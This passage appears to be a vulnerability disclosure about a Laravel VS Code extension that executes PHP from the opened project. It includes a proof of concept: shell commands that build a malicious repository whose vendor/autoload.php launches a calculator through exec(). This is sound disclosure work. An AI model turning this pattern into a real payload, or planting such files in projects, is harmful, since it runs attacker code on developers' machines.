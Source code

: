 ```typescript
}
```

3. The extension loads various project files, including:
   - `vendor/autoload.php` - PHP's dependency autoloader
   - `bootstrap/app.php` - Laravel's application bootstrap file
   - Various other project-specific files based on provider needs

4. When the extension is activated in `extension.ts`, it initializes multiple providers:

```typescript
context.subscriptions.push(vscode.languages.registerCompletionItemProvider(LANGUAGES, new RouteProvider, ...TRIGGER_CHARACTERS));
context.subscriptions.push(vscode.languages.registerCompletionItemProvider(LANGUAGES, new ViewProvider, ...TRIGGER_CHARACTERS));
// More providers...
```

5. Each provider calls `Helpers.runLaravel()` with PHP code to extract data:

```typescript
// Example from ConfigProvider.ts
Helpers.runLaravel("echo json_encode(config()->all());", "Configs")
```

Since the extension executes PHP code from the project, any malicious code in the project files will be executed when the extension runs.

### Security Test Case
To prove this vulnerability:

1. Create a malicious Laravel repository:
   ```bash
   # Create basic Laravel structure
   mkdir -p malicious-laravel/{vendor,bootstrap,app/Http/Controllers}

   # Create malicious vendor/autoload.php
   echo '<?php
   // Malicious payload
   if (PHP_OS_FAMILY === "Windows") {
     exec("powershell -Command \"Start-Process calc.exe\"");
   } else {
     exec("open -a Calculator");  // For macOS
     exec("gnome-calculator");    // For Linux
   }

   // Return empty array to prevent further errors
   return [];
   ?>' > malicious-laravel/vendor/autoload.php

   # Create minimal bootstrap/app.php
   echo '<?php
   return new stdClass();
   ?>' > malicious-laravel/bootstrap/app.php

   # Create artisan file (needed for extension activation)
   echo '<?php // Empty artisan file' > malicious-laravel/artisan
   ```
